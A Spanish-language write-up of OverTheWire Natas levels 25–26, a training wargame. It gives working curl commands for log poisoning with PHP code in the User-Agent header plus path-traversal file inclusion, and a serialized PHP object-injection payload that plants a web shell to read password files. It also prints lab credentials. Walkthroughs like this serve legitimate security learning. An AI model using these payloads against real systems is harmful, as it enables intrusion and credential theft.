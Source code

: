 Por una parte tenemos un fichero en el que se escribe el HTTP_USER_AGENT (y, por tanto, lo que queramos). Por otra una inclusión de fichero con una sanitización insuficiente del path. La gracia es juntar las dos cosas:

* Inyectar código en el log que lea el fichero de passwords
* Mostrar el log

De un tirón y sin más explicación:

`curl -q --cookie "PHPSESSID=ojoooooo" -H "User-agent: <?php echo file_get_contents('/etc/natas_webpass/natas26'); php?>" -u natas25:GHF6X7YwACaYYssHVY05cFq83hRktl4c "http://natas25.natas.labs.overthewire.org?lang=..././..././..././..././..././tmp/natas25_ojoooooo.log`

Entr los errores tenemos la cadena buscada: oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T

# natas26

A primera vista parece que se puede inyectar "algo" en el log. Es decir, algo semejante al caso anterior aunque algo más complejo. Investigando un poco llego a https://www.owasp.org/index.php/PHP_Object_Injection, una vulnerabilidad de aplicación que aprovecha un "magic method" de PHP (en este caso destruct) y el uso de unserialize() con sanitización insuficiente.

Vamos a crear un objeto Logger para inyectar; así que reescribimos la clase "tuneada" (fichero objInjection.php).

```
php objInjection.php
Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxMzoiaW1nL3B3bmVkLnBocCI7czoxNToiAExvZ2dlcgBpbml0TXNnIjtzOjE2OiIjLS1iZWVuIGhlcmUtLSMKIjtzOjE1OiIATG9nZ2VyAGV4aXRNc2ciO3M6NTI6Ijw%2FcGhwIHBhc3N0aHJ1KCdjYXQgL2V0Yy9uYXRhc193ZWJwYXNzL25hdGFzMjcnKTsgPz4iO30%3D
```

Cogemos el resultado y lo metemos en la cookie:

```
curl --cookie "drawing=Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxMzoiaW1nL3B3bmVkLnBocCI7czoxNToiAExvZ2dlcgBpbml0TXNnIjtzOjE2OiIjLS1iZWVuIGhlcmUtLSMKIjtzOjE1OiIATG9nZ2VyAGV4aXRNc2ciO3M6NTI6Ijw%2FcGhwIHBhc3N0aHJ1KCdjYXQgL2V0Yy9uYXRhc193ZWJwYXNzL25hdGFzMjcnKTsgPz4iO30%3D" -u natas26:oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T 'http://natas26.natas.labs.overthewire.org'
<html>
<head>
<!-- This stuff in the header ...

[...]

</form>

<img src="img/natas26_bgumej6psqrg1hft5j7uopq8u0.png"><br />
<b>Fatal error</b>:  Cannot use object of type Logger as array in <b>/var/www/natas/natas26/index.php</b> on line <b>105</b><br />
```

Vamos a ver si el fichero img/pwned.php está en su sitio (me ha costado varios intentos :)

```
curl -u natas26:oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T 'http://natas26.natas.labs.overthewire.org/img/pwned.php'
#--session end--#
#--session end--#
#--session end--#
#--session end--#
#--been here--#
55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ
```
